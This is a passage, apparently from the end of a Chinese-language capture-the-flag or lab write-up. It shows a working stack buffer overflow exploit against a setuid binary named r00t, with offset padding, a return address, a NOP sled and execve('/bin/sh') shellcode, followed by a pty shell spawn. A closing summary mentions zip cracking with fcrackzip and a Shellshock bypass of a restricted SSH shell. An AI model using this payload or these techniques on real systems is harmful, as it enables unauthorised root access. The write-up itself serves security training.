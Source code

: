 ```
./r00t $(python -c 'print "A"*偏移量 + "反向ESP" + "\x90"*20 + "shellcode"')
```

按照模板编写：

```
./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90"*20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
python -c 'import pty; pty.spawn("/bin/bash")'  #执行tty
```

<img src=".\图片\1651646261_62721f356a7dd33b48516.png!small" alt="1651646261_62721f356a7dd33b48516.png!small?1651646261873"  />

可看到成功缓冲区溢出跳转执行shellcode获得bash的shell！

# 总结

fcrackzip 可根据字典破解 zip

ssh的shell受限时，shellshock env环境变量绕过ssh

典中典 `strcpy` 函数导致栈溢出

栈溢出里 `\x90` 指令为空指令，直接继续运行



